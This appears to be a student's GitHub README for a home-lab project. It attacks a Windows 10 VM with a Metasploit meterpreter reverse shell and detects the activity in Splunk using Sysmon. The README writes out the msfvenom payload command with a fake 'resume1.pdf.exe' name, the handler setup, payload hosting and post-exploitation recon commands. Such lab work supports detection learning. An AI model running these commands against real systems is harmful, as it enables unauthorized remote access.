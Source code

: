 # Malware Simulation and Detection with Splunk

## Objective

This project involved simulating a cyberattack in a controlled virtual environment to understand how malware behaves, how attackers exploit systems, and how defensive tools like Splunk can detect such activities. A reverse TCP payload was generated using Metasploit and deployed on a Windows 10 Pro virtual machine. Post-exploitation activities were logged and analyzed using Splunk, offering insight into endpoint detection and response mechanisms.

## Skills Learned

- Practical experience with Metasploit Framework and payload generation  
- Understanding of reverse shell exploits and post-exploitation techniques  
- Experience using Splunk and Sysmon to detect system-level attack footprints  
- Proficiency in basic malware delivery methods and execution flow  
- Network traffic monitoring and port-based service delivery using Python  
- Enhanced knowledge of attacker tactics, techniques, and procedures (TTPs)  

## Tools Used

- Oracle VirtualBox for virtual machine setup  
- Kali Linux as the attacker machine  
- Windows 10 Pro as the victim machine  
- Metasploit Framework (msfvenom and msfconsole)  
- Python HTTP server to host and serve the payload  
- Splunk for centralized logging and analysis  
- Sysmon (System Monitor) for detailed Windows event logging  
- Nmap for target scanning and reconnaissance  

## Steps

1. **Network Setup**  
   - Created two virtual machines in Oracle VirtualBox: Kali Linux and Windows 10 Pro  
   - Connected them using Internal Network mode  
   - Kali Linux IP: `192.168.20.11`, Windows 10 IP: `192.168.20.10`  

2. **Scanning Target**  
   - Ran the following command on Kali to scan the Windows machine:  
     ```bash
     nmap -sS 192.168.20.10
     ```

3. **Creating Malware Payload**  
   - Used Metasploit’s `msfvenom` to create a malicious executable:  
     ```bash
     msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4445 -f exe -o resume1.pdf.exe
     ```

4. **Launching Exploit Handler**  
   - Started Metasploit Console and configured the handler:  
     ```bash
     msfconsole
     use exploit/multi/handler
     set payload windows/x64/meterpreter/reverse_tcp
     set LHOST 192.168.20.11
     set LPORT 4445
     exploit
     ```

5. **Serving Malware**  
   - Hosted the malicious file via HTTP server:  
     ```bash
     cd ~/Desktop
     python3 -m http.server 9999
     ```

6. **Executing Payload on Victim**  
   - Accessed `http://192.168.20.11:9999` from the Windows 10 VM and downloaded `resume1.pdf.exe`  
   - Verified connection using:  
     ```bash
     netstat -anob
     ```

7. **Post-Exploitation with Meterpreter**  
   - On successful connection, executed system info gathering commands from Kali:  
     ```bash
     shell
     net user
     net localgroup
     ipconfig
     ```

8. **Installing Sysmon and Using Splunk for Detection**  
   - Installed **Sysmon** on Windows to enhance log detail and focus on key ports and processes  
   - Opened Splunk and searched with:  
     ```
     index=endpoint
     ```  
   - Verified all attacker actions (like `net user`, `ipconfig`, etc.) were logged and visible in Splunk  

## Key Observations

- Without Sysmon, Splunk’s logging was too broad and hard to correlate  
- With Sysmon, telemetry was narrowed down and made actionable  
- Meterpreter commands were captured in Splunk logs due to Sysmon-enhanced visibility  
- Demonstrated end-to-end attack chain from delivery to detection  

## Author

**Shivain Maini**  
Cybersecurity Student   
[LinkedIn Profile](https://www.linkedin.com/in/shivain-maini-023301282/) 

